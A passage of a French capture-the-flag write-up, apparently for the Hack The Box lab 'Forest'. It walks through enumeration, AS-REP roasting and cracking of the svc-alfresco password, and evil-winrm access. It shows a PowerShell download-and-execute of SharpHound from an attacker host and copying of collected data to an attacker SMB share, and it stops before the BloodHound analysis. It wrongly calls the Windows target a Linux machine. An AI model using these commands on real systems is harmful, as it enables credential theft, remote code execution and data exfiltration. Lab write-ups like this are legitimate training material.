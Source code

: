 ![Pic1](../img/forest1.PNG?raw=true) </br>

# Introduction

Forest est une machine linux dont l'adresse IP est 10.10.10.161.</br>
Compétences mises en oeuvre :
* Enumération des ports et services d'une machine distante.
* 
</br>

# Enumération initiale
Nous commençons par l'énumération des services et ports de la box avec nmap :
```bash
$ nmap -T4 -A 10.10.10.161
```
![Pic2](../img/admirer2.PNG?raw=true) </br>
Plusieurs ports ouverts, on peut déjà tenter une énumération des dossiers partagés par SMB :
```bash
$ smbmap -H 10.10.10.161
```
![Pic3](../img/admirer3.PNG?raw=true) </br>
Aucun partage dispo.</br>
On peut faire une énumération RPC avec rpcclient :
```bash
$ rpcclient -U "" -N 10.10.10.161
rpcclient > enumdomusers
```
![Pic4](../img/admirer4.PNG?raw=true) </br>
![Pic5](../img/admirer5.PNG?raw=true) </br>

# Obtenir un accès utilisateur
En ayant la liste des utilisateurs, nous pouvons tenter d'obtenir un ticket Kerberos pour chacun, cela fonctionnera que pour le compte
svc-alfresco :
```bash
$ GetNPUsers -no-pass -dc-ip 10.10.10.161 htb/svc-alfresco
```
![Pic6](../img/admirer6.PNG?raw=true) </br>

Nous pouvons le cracker avec john :
```bash
$ john hash --wordlist=/usr/share/wordlists/rockyou.txt
```
![Pic7](../img/admirer7.PNG?raw=true) </br>
Nous pouvons alors nous connecter via le port 5985 avec Evil-WinRM et lire le user.txt :
```bash
$ evil-winrm -i 10.10.10.161 -u "svc-alfresco" -p "s3rvice"
> cat ../Desktop/user.txt
```
![Pic8](../img/admirer8.PNG?raw=true) </br>

# Obtenir un accès administrateur
Nous allons utiliser l'outil Bloodhound, pour ce faire, il faut :
* Upload SharpHound sur la box et l'éxécuter.
* Envoyé le résultat de SharpHound vers l'attaquant.
* Charger le résultat dans Bloodhound.
* Analyser le résultat pour voir l'exploit.
* Exploitation.

## Upload SharpHound sur la box et l'éxécuter
Coté attaquant :
```bash
$ cp /opt/bloodhound/Collectors/SharpHound.ps1 ./
$ python3 -m http.server
```
Coté box :
```bash
> cd C:\Users\svc-alfresco\appdata\local\temp
> iex(new-object net.webclient).downloadstring("http://10.10.14.34:8000/SharpHound.ps1")
> dir
```
![Pic9](../img/admirer9.PNG?raw=true) </br>
Nous pouvons voir le fichier 20201124130216_BloodHound.zip qui contient le résultat des données récoltées par SharpHound.

## Envoyé le résultat de SharpHound vers l'attaquant
Coté attaquant :
```bash
$ smbserver.py share . -smb2support -username df -password df
```
![Pic10](../img/admirer11.PNG?raw=true) </br>
Coté box :
```bash
> net use \\10.10.14.34\share /u:df df
> copy 20201124130216_BloodHound.zip \\10.10.14.34\share\
> del 20201124130216_BloodHound.zip
> net use /d \\10.10.14.34\share
```
![Pic11](../img/admirer10.PNG?raw=true) </br>

## Charger le résultat dans Bloodhound